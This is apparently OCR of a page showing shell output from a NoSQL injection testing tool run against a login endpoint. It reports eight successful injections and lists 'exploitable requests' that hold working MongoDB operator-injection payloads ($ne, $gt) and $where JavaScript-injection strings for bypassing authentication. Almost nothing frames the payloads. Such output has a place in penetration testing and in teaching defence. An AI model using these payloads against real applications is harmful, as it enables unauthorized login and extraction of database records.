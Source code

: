 ```shell-session
Test 1: PHP/ExpressJS != associative array injection
Successful injection!


Test 2:  PHP/ExpressJS > Undefined Injection
Successful injection!
Test 3: $where injection (string escape)
Successful injection!


Test 4: $where injection (integer escape)
Successful injection!


Test 5: $where injection string escape (single record)
Successful injection!


Test 6: $where injection integer escape (single record)
Successful injection!


Test 7: This != injection (string escape)
Successful injection!


Test 8:  This != injection (integer escape)
Successful injection!




Exploitable requests:
{'email': '[email]', 'password[$ne]': '[email]'}
{'email': '[email]', 'password[$gt]': ''}
{'password': "a'; return db.a.find(); var dummy='!", 'email': '[email]', 'password[$gt]': ''}
{'password': '1; return db.a.find(); var dummy=1', 'email': '[email]', 'password[$gt]': ''}
{'password': "a'; return db.a.findOne(); var dummy='!", 'email': '[email]', 'password[$gt]': ''}
{'password': '1; return db.a.findOne(); var dummy=1', 'email': '[email', 'password[$gt]': ''}
{'password': "a'; return this.a != '[email]'; var dummy='!", 'email': '[email]', 'password[$gt]': ''}
{'password': "1; return this.a != '[email]'; var dummy=1", 'email': '[email]', 'password[$gt]': ''}


Possibly vulnerable requests:



Timing based attacks:
String attack-Unsuccessful
Integer attack-Unsuccessful
```
